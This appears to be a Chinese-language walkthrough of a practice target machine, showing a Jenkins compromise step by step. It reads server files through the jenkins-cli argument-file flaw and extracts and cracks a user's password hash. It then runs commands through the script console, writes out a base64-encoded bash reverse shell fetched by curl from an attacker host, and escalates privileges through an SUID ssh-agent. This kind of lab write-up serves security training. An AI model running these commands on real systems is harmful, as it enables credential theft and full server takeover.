

靶机地址：https://drive.google.com/file/d/1YD7fyJIjPCV3FtUfnK7UbxlMnUdrvA6X/view

。。。。。。。。。。。。。。信息收集部分省略

#### 敏感文件读取

用该漏洞可以直接使用官方提供的命令行客户端

```
wget http://ip:8080/jnlpJars/jenkins-cli.jar
```

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，

`JENKINS_HOME=/var/jenkins_home`：

```bash
#使用该工具读取目标服务器的`/proc/self/environ`文件
java -jar jenkins-cli.jar -s http://IP:8080/ -http help 1 "@/proc/self/environ"
```


然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```bash
java -jar jenkins-cli.jar -s http://IP:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```


因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：


#### 提取密码哈希

Jenkins 安装将有一个文件，其中列出了此处的所有有效用户。

- `/var/jenkins_home/users/users.xml`

使用 connect-node 命令读取此文件，如下所示

```bash
java -jar jenkins-cli.jar -s http://10.10.10.10:8080 connect-node "@/var/jenkins_home/users/users.xml"
```


> users.xml`显示系统上的单个用户，`kyle_reese`，其文件夹为 `/var/jenkins_home/users/kylereese_12022439290147957862

在 Jenkins 上的每个用户文件夹中，始终有一个包含用户密码哈希的`config.xml`文件。读取文件夹中的`config.xml`

```bash
java -jar jenkins-cli.jar -s http://10.10.10.10:8080 connect-node "@/var/jenkins_home/users/kylereese_12022439290147957862/config.xml"
```


复制找到的密码哈希并将其粘贴到 Kali 上名为 hash.txt 的文件中。

`pico hash.txt`

```bash
$2a$10$GqneLZhOq6hRpCXeXF07tuAN..Q8GKDv5zad/HfcpNpL8GJUNNdDO
```

> 1.按下 Ctrl + O：这将会触发保存文件的操作。
> 2.按下 Enter：确认文件名。
> 3.按下 Ctrl + X：这将会退出 pico 编辑器。


#### hash破解


```bash
hashcat -m 3200 hashes.txt rockyou.txt
```

获得密码后，登录 Jenkins Web 界面：

- 账号：`kyle_reese`
- 密码：`mastermind`

#### 后台命令执行，反弹shell


Jenkins 脚本控制台在[官方用户手册](https://www.jenkins.io/doc/book/managing/script-console/)中可以看到可以进行命令执行


```bash
println "cat /etc/passwd".execute().text
```


反弹shell

```bash
bash -i >& /dev/tcp/10.10.10.3/6789 0>&1

进行ba64编码

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4zLzY3ODkgMD4mMQ==
```

kali创建exp.sh，将下面内容复制到里面

```bash
echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4zLzY3ODkgMD4mMQ==1" |base64 -d | /bin/bash
```


开启web服务`php -S 0:80 `


然后jenkins网站后台执行命令

```bash
println "curl http://10.10.10.3/exp.sh -o /tmp/exp.sh".execute().text
```


日志输出中看到 Web 服务器收到了状态代码为 200 的点击


给Shell权限，确保文件在目标服务器上可执行


直接运行Shell，NC传回反应


#### suid提权

查看suid权限有哪些

```bash
find / -perm -4000 2>/dev/null
```


在[gtfobins](https://gtfobins.github.io/gtfobins/ssh-agent/)查看提权方式


```bash
ssh-agent /bin/bash -p
```


